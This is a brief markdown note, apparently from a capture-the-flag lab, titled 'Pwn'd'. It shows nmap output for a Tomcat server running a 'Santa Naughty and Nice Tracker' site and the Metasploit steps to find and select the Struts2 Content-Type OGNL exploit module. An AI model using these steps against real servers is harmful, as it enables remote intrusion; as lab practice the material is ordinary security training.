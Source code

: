 # Pwn'd
80/tcp  open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-server-header: Apache-Coyote/1.1
| http-title: Santa Naughty and Nice Tracker
USE: 
````
search struts2
exploit(multi/http/struts2_content_type_ognl)
````
